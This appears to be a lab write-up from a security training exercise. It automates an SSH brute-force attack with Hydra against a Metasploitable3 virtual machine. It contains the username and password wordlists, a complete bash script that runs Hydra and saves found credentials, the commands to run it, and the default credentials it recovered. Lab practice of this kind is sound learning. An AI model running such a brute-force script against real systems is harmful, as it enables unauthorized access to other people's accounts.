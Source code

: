 # Phase 1 - Task 1.2: Automate SSH Brute-Force Using Hydra

## Objective
Compromise the service using a custom script that i created.

---

## 🖥️ Setup

- **Attacker Machine:** Kali Linux (UTM)
- **Victim Machine:** Metasploitable3 (UTM)
- **Target IP Address:** `192.168.64.7`
- **Target Port:** `22` (default)

### users.txt

```text
admin
root
user
vagrant
aisha
test
```
### pass.txt
```text
password
123456
toor
vagrant
aishapass
testpass
```
![files contant](screanshots/filesContant.png)

---

## Custom Script

### File: script.sh
```text
#!/bin/bash

# Define the target IP address and port
TARGET_IP="192.168.64.7"  # target IP
TARGET_PORT=22 # target IP

# Define the path to the username and password files
USER_LIST="users.txt"
PASSWORD_LIST="pass.txt"

# Output file to store valid credentials
OUTPUT_FILE="valid_credentials.txt"

# Check if Hydra is installed
if ! command -v hydra &> /dev/null; then
    echo "Hydra is not installed. Please install it and try again."
    exit 1
fi

# Run Hydra to brute-force SSH credentials
echo "Starting brute force attack with Hydra..."
hydra -L "$USER_LIST" -P "$PASSWORD_LIST" ssh://$TARGET_IP -s $TARGET_PORT -o $OUTPUT_FILE

# Check if valid credentials were found
if [ -s "$OUTPUT_FILE" ]; then
    echo "Brute force attack completed. Valid credentials found:"
    cat "$OUTPUT_FILE"
else
    echo "No valid credentials found."
fi
```

### add the script using:
```text
nano script.sh
```

![the Custom Script](screanshots/customScript.png)

---

## Make the script executable
```text
chmod +x script.sh
```
![script executable](screanshots/scriptExecutable.png) 

---

## Result

### Execute the script
```text
./script.sh
```
![Execute script](screanshots/executeScript.png) 

### Hydra successfully completed the brute-force attack and identified valid SSH credentials for the target system.

### This confirms that the target system at 192.168.64.7 is accessible over SSH using the credentials:

* Username: vagrant
* Password: vagrant





















